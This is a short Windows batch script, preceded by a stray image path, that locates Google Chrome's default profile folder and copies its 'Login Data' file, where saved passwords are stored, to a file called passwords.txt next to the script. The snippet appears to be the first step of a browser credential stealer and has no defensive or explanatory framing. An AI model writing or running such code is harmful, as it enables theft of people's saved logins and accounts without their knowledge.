 @echo off
setlocal enabledelayedexpansion

set "chromeDataPath=%LocalAppData%\Google\Chrome\User Data\Default"
set "outputFile=%~dp0passwords.txt"

copy "!chromeDataPath!\Login Data" "!outputFile!" /Y
